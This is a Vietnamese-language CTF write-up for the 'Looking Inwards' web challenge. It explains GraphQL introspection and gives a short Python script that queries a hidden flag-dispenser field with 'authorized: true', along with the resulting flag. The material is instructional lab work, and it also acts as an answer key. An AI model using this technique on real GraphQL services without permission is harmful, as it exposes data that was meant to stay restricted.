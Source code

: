 ### Looking Inwards - web challenges

2021-12-08

**Challenge Description:**

```
It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

With new technologies, though, come new classes of attacks. Check out this basic GraphQL API server. To get you started, here's one cool thing it can do: If you send it a query in the form of echo(message: "message_here"), it will respond with what you said. Can you get it to give you the flag?
```

---

Looking Inwards là một thử thách web khai thác lỗi graphql để có được flag.

**Analyzing**

Ngay khi truy cập vào url tác giả cung cấp đưa chúng ta đến endpoint `/graphl.php` . Đây là endpoit Graphql phổ biến. Khi đã xác định được Graphql endpoint, khai thác đầu tiên có thể làm và hữu ích đó là **introspection**.

> Introspection là khả năng truy vấn tài nguyên nào có sẵn trong lược đồ API hiện tại.  Với API, thông qua introspection, chúng ta có thể thấy các query,  types, fields và derectives mà nó hỗ trợ. 

 Dưới đây là full request để thực hiện Graphql introspection mình thực hiện trong thử thách này:
 ![full_request](https://user-images.githubusercontent.com/68894302/145154919-f44b24ec-da8f-4188-bf18-ffefc67973f0.png)
 
 **Exploit** 

Có khả năng reponse gợi ý rằng query đến trường super_super_secret_flag_dispense để lấy flag.

Sử dụng python để connect với API Graphql,  lý do mình muốn connect GraphQL trực tiếp là bởi vì  có một ứng dụng web mà chúng  ta phải tự điền vào các lĩnh vực từng cái một. Không phải là cách sử  dụng thời gian hiệu quả nhất của tôi nếu chúng ta biết nó lặp đi lặp  lại. Dựa vào description đề bài cho, query của mình sẽ có dạng `echo(message: "message_here")`

```python
import requests, json

query = '''
query{super_super_secret_flag_dispenser(authorized: true)}
'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url,json={'query':query})
print(r.status_code)
print(r.text)
```

Result:

```
└──╼$python3 looking_inwards_poc.py 
200
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
```

